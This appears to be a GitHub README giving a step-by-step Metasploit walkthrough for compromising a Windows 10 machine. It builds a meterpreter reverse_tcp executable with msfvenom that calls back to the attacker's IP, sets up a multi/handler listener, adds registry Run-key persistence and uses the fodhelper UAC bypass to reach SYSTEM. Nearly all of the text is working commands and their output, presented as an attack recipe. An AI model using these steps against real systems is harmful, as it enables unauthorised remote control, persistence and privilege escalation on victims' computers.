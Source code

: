 # Windows-10
In this I will explain how to bypass Windows 10 ,make the attack persistence also UAC bypass on the target machine. We will be doing this with the help of payload created in kali linux.

Steps to create payload in kali linux: 

1. In kali terminal {WINDOWS 10 is 64bit bydefault}
┌──(bhavin㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp  lhost=192.168.94.184 lport=1234 -f exe -o win10.exe  
                |                                  |        |          |      |    |   |      ||        |   
Syntax:-        |      Type of palyoad             |        | Your IP  |      |port|   |format||Filename|
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: win10.exe


2. Payload will be created successfully if everything is correct.

3. Transfer the win10.exe file to the target machine.

4. In kali open msfconsole

┌──(bhavin㉿kali)-[~]
└─$ msfconsole                                                                                          

5. use a epxloit 

6. set exact same payload as used while creation of payload executable file.

7. use same lhost and lport 

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > set lhost 192.168.94.184
lhost => 192.168.94.184
msf6 exploit(multi/handler) > 

ALSO disable ExitOnSession 

msf6 exploit(multi/handler) > set ExitOnSession false 
ExitOnSession => false
msf6 exploit(multi/handler) > 

8. exploit

9. Double click the win10.exe file in Windows 10

10. In kali

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.94.184:1234 
msf6 exploit(multi/handler) > [*] Sending stage (200774 bytes) to 192.168.94.54
[*] Meterpreter session 1 opened (192.168.94.184:1234 -> 192.168.94.54:49943) at 2023-01-31 19:54:38 +0530
meterpreter > 

11. To make persistence 

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/linux/local/apt_package_manager_persistence   1999-03-09       excellent  No     APT Package Manager Persistence                                                                                                                             
   1   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   2   exploit/linux/local/autostart_persistence             2006-02-13       excellent  No     Autostart Desktop Item Persistence                                                                                                                          
   3   exploit/linux/local/bash_profile_persistence          1989-06-08       normal     No     Bash Profile Persistence
   4   exploit/linux/local/cron_persistence                  1979-07-01       excellent  No     Cron Persistence
   5   exploit/osx/local/persistence                         2012-04-01       excellent  No     Mac OS X Persistent Payload Installer
   6   exploit/osx/local/sudo_password_bypass                2013-02-28       normal     Yes    Mac OS X Sudo Password Bypass
   7   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   8   auxiliary/server/regsvr32_command_delivery_server                      normal     No     Regsvr32.exe (.sct) Command Delivery Server
   9   post/linux/manage/sshkey_persistence                                   excellent  No     SSH Key Persistence
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence
   11  exploit/linux/local/service_persistence               1983-01-01       excellent  No     Service Persistence
   12  exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence                                                                                                                          
   13  post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   14  post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
   15  exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   16  exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   17  exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   18  exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence                                                                                                                           
   19  exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence                                                                                                                     
   20  exploit/linux/local/yum_package_manager_persistence   2003-12-17       excellent  No     Yum Package Manager Persistence                                                                                                                             
   21  exploit/unix/local/at_persistence                     1997-01-01       excellent  Yes    at(1) Persistence
   22  exploit/linux/local/rc_local_persistence              1980-10-01       excellent  No     rc.local Persistence


Interact with a module by name or index. For example info 22, use 22 or use exploit/linux/local/rc_local_persistence

msf6 exploit(multi/handler) > use 14

12. set the options 

13. 
msf6 post(windows/manage/persistence_exe) > set rexepath win10.exe
rexepath => win10.exe
msf6 post(windows/manage/persistence_exe) > set session
session => 
msf6 post(windows/manage/persistence_exe) > set session 1
session => 1
msf6 post(windows/manage/persistence_exe) > run 

[*] Running module against ABCD
[*] Reading Payload from file /home/bhavin/Desktop/win10.exe
[+] Persistent Script written to C:\Users\dummy\AppData\Local\Temp\default.exe
[*] Executing script C:\Users\dummy\AppData\Local\Temp\default.exe
[+] Agent executed with PID 9064
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\kbYQVyTFMP
[*] Sending stage (200774 bytes) to 192.168.94.54
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\kbYQVyTFMP
[*] Cleanup Meterpreter RC File: /home/bhavin/.msf4/logs/persistence/ABCD_20230131.5741/ABCD_20230131.5741.rc
[*] Post module execution completed
msf6 post(windows/manage/persistence_exe) > [*] Meterpreter session 2 opened (192.168.94.184:1234 -> 192.168.94.54:49952) at 2023-01-31 19:57:43 +0530

14. UAC bypass 

msf6 post(windows/manage/persistence_exe) > search uac

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   0   post/windows/manage/sticky_keys                                         normal     No     Sticky Keys Persistance Module
   1   exploit/windows/local/cve_2022_26904_superprofile      2022-03-17       excellent  Yes    User Profile Arbitrary Junction Creation Local Privilege Elevation
   2   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   3   exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
   4   exploit/windows/local/ask                              2012-01-03       excellent  No     Windows Escalate UAC Execute RunAs
   5   exploit/windows/local/bypassuac                        2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass
   6   exploit/windows/local/bypassuac_injection              2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection)
   7   exploit/windows/local/bypassuac_injection_winsxs       2017-04-06       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS
   8   exploit/windows/local/bypassuac_vbs                    2015-08-22       excellent  No     Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
   9   exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   10  exploit/windows/local/bypassuac_eventvwr               2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
   11  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   12  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   13  exploit/windows/local/bypassuac_dotnet_profiler        2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via dot net profiler)
   14  post/windows/gather/win_privs                                           normal     No     Windows Gather Privileges Enumeration
   15  exploit/windows/local/tokenmagic                       2017-05-25       excellent  Yes    Windows Privilege Escalation via TokenMagic (UAC Bypass)
   16  exploit/windows/local/bypassuac_fodhelper              2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key)
   17  exploit/windows/local/bypassuac_sluihijack             2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)


Interact with a module by name or index. For example info 17, use 17 or use exploit/windows/local/bypassuac_sluihijack

msf6 post(windows/manage/persistence_exe) > use 16


msf6 exploit(windows/local/bypassuac_fodhelper) > set session 2
session => 2
msf6 exploit(windows/local/bypassuac_fodhelper) > set lport 1234
lport => 1234
msf6 exploit(windows/local/bypassuac_fodhelper) > set target 1
target => 1
msf6 exploit(windows/local/bypassuac_fodhelper) > run 
[*] Meterpreter session 3 opened (192.168.94.184:1234 -> 192.168.94.54:49952) at 2023-01-31 19:57:43 +0530

meterpreter > getuid 
Server username: ABCD\dummy
meterpreter > getsystem 
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM


